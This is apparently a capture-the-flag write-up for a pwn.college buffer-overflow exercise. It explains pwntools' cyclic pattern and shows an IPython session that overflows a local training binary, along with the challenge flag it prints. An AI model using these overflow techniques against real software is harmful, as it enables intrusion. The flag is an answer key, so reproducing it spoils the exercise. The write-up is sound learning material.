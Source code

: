 # Your first overflow hard
in this we needed to overflow the buffer
cyclic() generates a unique, non-repeating pattern of bytes (letters).
Each 4-byte (or 8-byte) sequence in that pattern is unique, so when your program crashes and you check the value of $RIP, you can find exactly how many bytes it took to reach that point.

## flag 
pwn.college{8xXY9mcuWfVWYZA_gXKhBfe5XgR.0FM5IDL5gDN1czW}

## Solve
```bash
:/challenge$ ipython
Python 3.12.11 (main, Jun  3 2025, 15:41:47) [GCC 14.2.1 20250322]
Type 'copyright', 'credits' or 'license' for more information
IPython 9.2.0 -- An enhanced Interactive Python. Type '?' for help.
Tip: You can change the editing mode of IPython to behave more like vi, or emacs.

In [1]: from pwn import *

In [2]: r=process('./binary-exploitation-first-overflow')
[x] Starting local process './binary-exploitation-first-overflow'
[+] Starting local process './binary-exploitation-first-overflow': pid 228

In [3]: r.send(cyclic(200))

In [4]: r.readall()
[x] Receiving all data
[x] Receiving all data: 0B
[*] Process './binary-exploitation-first-overflow' stopped with exit code -6 (SIGABRT) (pid 228)
[x] Receiving all data: 178B
[+] Receiving all data: Done (178B)
Out[4]: b'Send your payload (up to 4096 bytes)!\nYou win! Here is your flag:\npwn.college{8xXY9mcuWfVWYZA_gXKhBfe5XgR.0FM5IDL5gDN1czW}\n\n\nGoodbye!\n*** stack smashing detected ***: terminated\n'

```

- we send the cyclic to find how many bits moved in the rip and see the bits needed to overflow the buffer
## Reference 
None

